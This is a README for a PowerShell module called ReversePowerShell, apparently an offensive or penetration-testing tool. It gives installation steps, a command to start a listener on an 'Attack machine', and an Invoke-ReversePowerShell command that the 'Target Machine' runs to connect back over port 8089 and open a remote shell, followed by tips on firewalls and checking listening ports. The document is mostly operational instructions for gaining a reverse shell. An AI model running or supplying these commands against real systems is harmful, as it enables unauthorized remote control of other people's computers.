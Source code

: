 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell

#### INSTALL THE MODULE
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 'C:\Users\$env:USERNAME\Documents\WindowsPowerShell\Modules\ReversePowerShell'

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
---
#### FIREWALL
If you are not able to gain a connection it is most likely due to the Windows Firewall. 

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
